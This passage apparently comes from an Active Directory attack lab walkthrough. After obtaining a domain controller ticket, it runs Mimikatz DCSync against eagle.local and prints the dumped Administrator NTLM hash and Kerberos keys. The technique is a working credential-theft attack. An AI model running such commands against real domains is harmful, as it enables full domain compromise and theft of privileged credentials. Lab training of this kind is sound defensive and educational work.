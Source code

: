 We have now obtained a TGT for the Domain Controller DC2. Therefore we become DC2. Being a Domain Controller, we can now trigger `DCSync` with `Mimikatz`:

Attack

```powershell-session
.\mimikatz_trunk\x64\mimikatz.exe "lsadump::dcsync /user:Administrator" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /user:Administrator
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 01.00.00
Password last change : 07/08/2022 20.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8


mimikatz(commandline) # exit
Bye!
```
